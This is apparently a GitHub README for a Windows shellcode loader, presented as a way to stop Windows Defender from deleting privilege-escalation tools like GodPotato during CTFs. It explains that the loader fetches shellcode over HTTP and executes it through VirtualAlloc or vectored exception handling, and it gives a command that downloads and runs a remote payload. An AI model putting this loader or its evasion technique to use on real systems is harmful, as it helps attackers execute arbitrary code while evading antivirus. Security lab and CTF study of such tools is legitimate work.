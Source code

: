 ## Credits :
Credits to @manesec because shellcode over http is his idea, check out [his repo](https://github.com/manesec/shellcodeloader4mane/).

## Why ?
You're doing a CTF, have SeImpersonatePrivilege but you get stuck for 3 hours because windows defender keeps deleting godpotato.exe ?
I'm here to save the day !

## Extreme loader
This is a really simple shellcode loader that can use two techniques :
- loadVirtualAlloc
- vectoredException

It will retrieve the shellcode via http to run it using one of the above techniques.

The second one is interesting because it's still kind of new. 
I wanted to make this when I found this good [blogpost](https://securityintelligence.com/x-force/using-veh-for-defense-evasion-process-injection/)
that goes into great detail on how it works.

This is a visual studio project, if you just want the executables I might add them to the release page if I'm not too lazy. 
I don't really plan on updating this while it works, but once it will get flagged by windows defender I might.
No encryption is used on the payload, feel free to fork and do it.

## How to use
You need to generate a shellcode from the executable you want to run, the best tool for this might be [donut](https://github.com/TheWover/donut).
Then just server the shellcode on http, and run
```
.\ExtremeLoader.exe http://10.10.10.10/loader.bin
```

Please please please be responsible and only use this in ctf's